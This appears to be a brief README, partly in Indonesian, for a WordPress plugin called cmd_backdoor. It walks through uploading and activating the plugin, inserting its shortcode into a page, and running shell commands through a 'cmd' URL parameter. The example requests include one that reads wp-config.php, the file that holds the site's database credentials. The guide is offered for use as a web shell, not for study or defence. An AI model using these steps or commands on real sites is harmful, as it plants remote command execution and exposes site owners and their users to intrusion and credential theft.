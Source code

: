 **[1] upload cmd_backdoor.zip**

**[2] activate**  
![Alt text](0.png)

**[3] masukkan shortcode ke page/post**  
`[cmd_backdoor]`  
![Alt text](1.png)

**[4] akses page dengan get params cmd=**  
contoh http://example.com/?cmd=id  
contoh http://example.com/?cmd=ls -lah  
contoh http://example.com/?cmd=cat wp-config.php  
![Alt text](2.png)
